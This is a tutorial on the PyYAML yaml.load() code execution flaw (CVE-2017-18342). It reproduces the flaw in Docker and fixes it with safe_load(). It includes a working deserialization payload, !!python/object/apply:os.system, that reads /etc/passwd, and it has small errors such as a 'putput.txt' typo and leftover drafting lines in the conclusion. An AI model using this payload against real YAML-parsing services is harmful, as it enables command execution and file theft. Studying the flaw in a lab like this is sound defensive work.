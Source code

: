 **CVE-2017-18342**. 

**Objective of the material** 

This tutorial will help you to understand CVE vulnerabilities in detailed way, how to simulate the vulnerability and do advanced exploitation in safe environments. Then how to fix this vulnerability. 

**Description**  

In PyYAML before 5.1, the yaml.load() API could execute arbitrary code if used with untrusted data. The load() function has been deprecated in version 5.1 and the 'UnsafeLoader' has been introduced for backward compatibility with the function.

**What is PyYAML**  

PyYAML is a YAML parser and emitter for the Python programming language 

**Vulnerablity**  

Issue with yaml.load()

>Vulnerability: The yaml.load() function is used to parse YAML data.When yaml.load() parses a YAML file, it not only deserializes basic data types (like strings, lists, or dictionaries) but can also instantiate Python objects.

>Arbitrary Code Execution: If untrusted YAML data is passed to yaml.load(), it could cause Python objects or even functions to be instantiated or executed. This behavior leads to arbitrary code execution (RCE), where an attacker could craft a malicious YAML file that runs dangerous commands or code on the server or client, potentially taking full control of the system. 

**Prerequisites** 

Tools/Technologies Needed
Python  
PyYAML  
Docker (for containerization and easy setup) 

Basic Knowledge: 
Understanding YAML format. 
Knowledge of serialization and deserialization concepts. 
 

**Step 1: Create a Vulnerable Python Application**

Create a folder name CVE-2017-18342 and add a file named exploit.py containing the following code: 
 
    import yaml
 
    # Malicious YAML payload
    payload = """ 
    !!python/object/apply:os.system
    args: ["cat /etc/passwd > putput.txt && echo 'File read and written successfully' >> output.txt"] 
    """ 
 
    # Attempt to load the malicious payload 
    yaml.load(payload, Loader=yaml.UnsafeLoader) 
    print("Exploit executed. Check output.txt for the result.") `
 
 
This code reads the contents of a sensitive file (/etc/passwd) and stores it in a file (output.txt). 
The yaml.load() function would execute the os.system call, which is very dangerous. 
If you notice, we use the UnsafeLoad function because for backward compatibility. The UnsafeLoader was introduced after version 5.1, allowing users to explicitly opt into the dangerous behavior of yaml.load().

**Step 2: Create Docker Environment** 

Create a docker-compose.yml file under CVE-2017-18342 to set up the environment with a vulnerable version of PyYAML:
 
    version: '3' 
    services: 
    pyyaml-vulnerable: 
    image: python:3.8-slim 
    container_name: pyyaml-vulnerable-container 
    volumes: 
    - .:/app 
    working_dir: /app 
    command: sh -c "pip install PyYAML==5.1 && python3 exploit.py" 

**Step 3: Run the Vulnerable Application** 

Start the application by using Docker 
Start the docker application - this can be done from the docker desktop by turning it on or restarting. 
Go to CVE-2017-18342 folder in the terminal where all the above files are and run the following code. 
 
 
    docker-compose up –build 
 
**Step 4: Observe the Exploit**

After successfully running this vulnerability, you get a new output.txt file that contains user account information. 

you should see the output from the malicious YAML being executed, confirming the exploit: 

You successfully run vulnerabilities! 

**Step 5: Fixing the Vulnerability**

Create a file called safety.py which update the Code to use yaml.safe_load() 

    import yaml 
 
    # Malicious YAML payload 
    payload = """ 
    !!python/object/apply:os.system 
    args: ["cat /etc/passwd > putput.txt && echo 'File read and written successfully' >> output.txt"] 
    """ 
 
    # Attempt to load the malicious payload 
    yaml.safe_load(payload) 
    print("Exploit executed. Check output.txt for the result.") 
 
By replaceing yaml.load() with yaml.safe_load(), which prevents arbitrary code execution by only allowing simple Python objects (like lists and dictionaries) to be loaded.  
 
**Step 6: Update Docker Environment to Test the Fix**

Update docker-compose.yml to test the fixed script. 
 
    version: '3' 
    services: 
    pyyaml-fixed: 
    image: python:3.8-slim 
    container_name: pyyaml-fixed-container 
    volumes: 
    - .:/app 
    working_dir: /app 
    command: sh -c "pip install PyYAML==5.1 && python3 safety.py" 
 
**Step 7: Run the Fixed Application** 

Rebuild and restart the container with the fixed code 
 
Use docker-compose up --build in the terminal to build and run the environment with the corrected 
 
**Step 8: Verify the Fix** 

After running the application, the malicious YAML will no longer be executed:

[![Result after executing the fixed application](https://drive.google.com/file/d/1TSDTn7bHQJQSwegXVVvEHP-Jj09nZmq1/view?usp=sharing)]

Explanation: 

The error you're seeing confirms that safe_load() blocks the loading of the custom YAML tag !!python/object/apply:os.system. This is expected behavior when using safe_load() and shows that it is working as a security measure. 

By using yaml.safe_load(), the deserialization process is limited to basic types, and no arbitrary code execution is possible. The malicious YAML is treated as harmless data. 
 

**Step 9. Best Practices for Deserialization** 

Always use yaml.safe_load() when processing untrusted YAML input. 
Be cautious when deserializing data from unknown sources. Arbitrary code execution is a common deserialization vulnerability in many formats, including YAML, JSON, and XML. 
Upgrade dependencies like PyYAML regularly to ensure you are protected from known vulnerabilities. 
 

**Conclusion** 

Reiterate the importance of using safe_load() instead of load() when working with YAML data to avoid arbitrary code execution vulnerabilities. 
Emphasize that upgrading PyYAML to the latest secure version (5.4.1 or later) also helps prevent this vulnerability. 
Provide a reminder to test all dependencies for security vulnerabilities using tools like pip-audit or similar. 
 
**Additional Resources** 

PyYAML Documentation- https://pyyaml.org/wiki/PyYAMLDocumentation
CVE-2017-18342 Details- https://nvd.nist.gov/vuln/detail/CVE-2017-18342
Best Practices for Deserialization in Python- https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html , https://docs.python.org/3/library/pickle.html#restricting-globals 
 
